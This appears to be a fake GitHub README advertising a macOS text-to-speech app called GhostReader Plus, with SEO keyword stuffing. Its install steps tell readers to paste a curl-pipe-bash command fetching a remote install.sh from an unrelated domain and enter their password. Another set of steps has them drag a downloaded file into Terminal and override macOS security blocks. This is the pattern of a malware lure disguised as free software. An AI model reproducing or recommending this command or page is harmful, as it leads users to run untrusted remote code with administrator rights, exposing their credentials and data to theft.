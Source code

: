 <p align="center">
  <img src="https://i.ibb.co/CKbWM87b/1614529133-ghostreader-logo-optimized.png" alt="GhostReader Plus macOS Banner" />
</p>

<h1 align="center">GhostReader Plus for macOS</h1>

<p align="center">
  🗣️ Convert written text into spoken words with customizable voice control, speech playback, and offline audio export.  
  <br><br>
  ✅ Native Apple Silicon & Intel support  
  ✅ macOS Sonoma, Ventura, Monterey compatible  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/187" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20GHOSTREADER%20PLUS%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download GhostReader Plus for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/fVZWpwtF/1614608722-2.jpg" alt="GhostReader Plus Text-to-Speech UI" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is GhostReader Plus?

**GhostReader Plus for macOS** is a text-to-speech utility that reads any written content aloud using macOS system voices and custom speech controls. It’s designed for users who want an offline, privacy-friendly tool to hear documents, articles, or notes — or export them as audio files.

Ideal for writers, learners, accessibility users, or anyone who prefers listening over reading. GhostReader Plus offers enhanced features like pronunciation editor, batch file processing, and audio file export.

All features work offline and are fully optimized for both **Intel** and **Apple Silicon (M1/M2/M3)** chips.

---

## ✅ Why Choose GhostReader Plus?

- 🔊 **Text-to-Speech with Voice Control**  
- 🧠 **Listen to Documents, Emails, or Web Text**  
- 🎧 **Export Spoken Content to Audio Files (AIFF/MP3)**  
- 📝 **Built-in Pronunciation Editor**  
- 🗂️ **Batch Read Multiple Files**  
- 🎚️ **Adjust Speaking Rate & Volume**  
- 🔒 **100% Offline Operation – No Internet Needed**  
- 🍎 **macOS Native with M1/M2/M3 Support**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/9kHjSKZB/1614608768-1.jpg" alt="Pronunciation Editor Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/0jdvD62R/1614608789-3.jpg" alt="GhostReader Audio Export Preview" />
</p>

---

## 🚀 Key Features

- Convert text to spoken voice using system voices  
- Export audio for podcasts, study, or narration  
- Customize voice, speed, volume, and pitch  
- Highlight text as it’s spoken  
- Advanced pronunciation editing  
- Drag & drop documents or text blocks  
- Clean UI with dark mode support  
- Offline-only for full data privacy  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow GhostReader Plus under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Text+to+Speech+Utility-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Custom+Voice+Playback+Export-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ GhostReader – Let Your Text Speak

Thanks for using **GhostReader Plus for macOS**.  
Your words. Your voice. Anywhere.

---

## 🧭 Usage Context

This utility is designed for local, offline text-to-speech playback and audio export.  
It does not require online connectivity or cloud syncing.  

Intended for personal use, study, voiceover prep, or accessibility support.  
Not affiliated with Apple Inc.

---

## 🔍 Tags

```text
ghostreader plus for mac download, ghostreader mac text to speech utility, offline tts macbook ghostreader app, convert text to audio file macos tool, pronunciation editor ghostreader plus mac, native voice reader mac with export, speech synthesis software for mac m1, apple silicon tts tool for macos, read aloud text documents ghostreader, mp3 aiff voice export app mac ghostreader, macbook text reader accessibility tool, batch read and export voice mac ghostreader, customize voice speed macos tts tool, offline narration export utility mac, ghostreader plus native speech control mac
